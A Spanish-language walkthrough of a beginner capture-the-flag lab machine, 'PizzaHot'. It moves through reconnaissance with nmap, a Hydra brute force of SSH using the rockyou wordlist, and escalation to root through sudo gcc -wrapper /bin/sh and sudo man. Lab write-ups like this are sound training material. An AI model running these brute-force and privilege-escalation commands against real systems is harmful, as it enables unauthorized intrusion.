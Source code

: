 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# PizzaHot

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.41
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.41
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 192.168.1.41
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (738).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Ingresamos la IP y nos encontramos la página de pizzas.

<figure><img src="../../.gitbook/assets/image (739).png" alt=""><figcaption></figcaption></figure>

Revisamos el código fuente y encontramos el nombre de un usuario llamado **pizzapiña**.

<figure><img src="../../.gitbook/assets/image (740).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l pizzapiña -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.41 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **192.168.1.41**

<figure><img src="../../.gitbook/assets/image (744).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **pizzapiña**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh pizzapiña@192.168.1.41
```

<figure><img src="../../.gitbook/assets/image (741).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (742).png" alt=""><figcaption></figcaption></figure>

Vemos que tenemos permisos sudo con **gcc** por lo que miramos [GTFOBins ](https://gtfobins.github.io/gtfobins/gcc/)para ver como podemos escalar privilegios.

```bash
sudo -u pizzasinpiña gcc -wrapper /bin/sh,-s .
```

Realizar tratamiento de la TTY. Como se nos muestra aquí: [Tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/). &#x20;

<figure><img src="../../.gitbook/assets/image (743).png" alt=""><figcaption></figcaption></figure>

Ya estamos dentro del usuario **pizzasinpiña** por lo que realizamos otra vez el comando:

```bash
sudo -l
```

<figure><img src="../../.gitbook/assets/image (745).png" alt=""><figcaption></figcaption></figure>

Vemos que tenemos permisos sudo con **man** por lo que miramos [GTFOBins ](https://gtfobins.github.io/gtfobins/man/)para ver como podemos escalar privilegios.

```bash
sudo man man
```

Presionamos la tecla **ESC** para salir del modo de inserción en VIM y, a continuación, ejecutamos el siguiente comando para obtener una shell con privilegios elevados:

<figure><img src="../../.gitbook/assets/image (746).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.

<figure><img src="../../.gitbook/assets/image (747).png" alt=""><figcaption></figcaption></figure>

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
